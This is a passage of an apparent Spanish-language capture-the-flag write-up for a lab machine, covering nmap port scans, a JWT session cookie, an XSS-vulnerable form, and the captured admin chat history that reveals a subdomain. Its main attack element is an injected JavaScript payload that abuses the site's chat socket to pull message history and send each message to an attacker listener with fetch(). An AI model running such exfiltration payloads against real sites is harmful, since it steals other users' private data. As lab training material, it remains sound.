





**RECON**

**PORTS SCAN**

```ruby
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.129.188.227 -oG allPorts
[sudo] password for anonimo: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:55 CET
Initiating SYN Stealth Scan at 12:55
Scanning 10.129.188.227 [65535 ports]
Discovered open port 22/tcp on 10.129.188.227
Discovered open port 80/tcp on 10.129.188.227
Completed SYN Stealth Scan at 12:55, 14.58s elapsed (65535 total ports)
Nmap scan report for 10.129.188.227
Host is up, received user-set (0.11s latency).
Scanned at 2024-03-10 12:55:40 CET for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
           Raw packets sent: 72314 (3.182MB) | Rcvd: 71754 (2.870MB)
```

**SERVICE AND VERSION SCAN**

```ruby

❯ sudo nmap -p22,80 -sCV 10.129.188.227 -oN target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:58 CET
Nmap scan report for 10.129.188.227
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-cors: GET POST
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

Nada Inusual hmm.... Como podemos ver, tenemos el puerto 80 abierto, en este caso corresponde hacer la revisión de lo que está publicado en dicho puerto.
Nos redirige a un formulario login con opcion de registrarnos:


Por encima ver que tenemos la capacidad de interactur con un bot...


Al parecer el serivicio no esta activo pero aun asi podemos ejecutar el comando "help" el cual nos muestra los comandos activos:
```"history -- Shows the Previous Sent"```


Parece interesante pero vamos a continuar con la enumeracion...


Hmm un formulario, vamos a ver si realmente hace algo por detras.


Ouu...Parece vulnerable a xss, interesante sigamos enumerando:


Parece que la cookie es una API key para sean mas seguras las peticiones con la API...

```json
{
"alg":"HS256",
"typ":"JWT"
}
{
"userID"=:"65eda379658edff97d460d42",
"iat":1710072703
}json

Si seguimos enumerando podemos ver que hay un archivo chat.js, en este podemos ver que esta haciendo conexiones socket para conectarse a los chats. hmm..
Espera.. y si utilizamos las funciones para ver chats de otros ususarios?

Si hacemos cremos este archivo .js utilizando las funciones para que nos rediriga los mensages puede que nos de algo, vamos a probarlo:

```javascript
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});

const typing_chat_2 = () => {
  value = "history"
  if (value) {
    // sending the  messages to the server
    socket.emit('client_message', value)
    Show_messages_on_screen_of_Client(value);
    // here we will do out socket things..
    document.getElementById('user_message').value = ""
  }
  else {
    alert("Cannot send Empty Messages");
  }
}

socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  fetch("http://10.10.14.25/?" + my_message );

})

typing_chat_2()
```

Vamoss..Tenemos lo que parece el historial de algun chat!!


```
"OPTIONS /?Hello, I am Admin.Testing the Chat Application HTTP/1.1" 200 -
"OPTIONS /?Write a script for  dev-git-auto-update.chatbot.htb to work properly HTTP/1.1" 200 -
"OPTIONS /?Write a script to automate the auto-update
```
Un subdominio? eso parece.. vamos a echar un vistazo
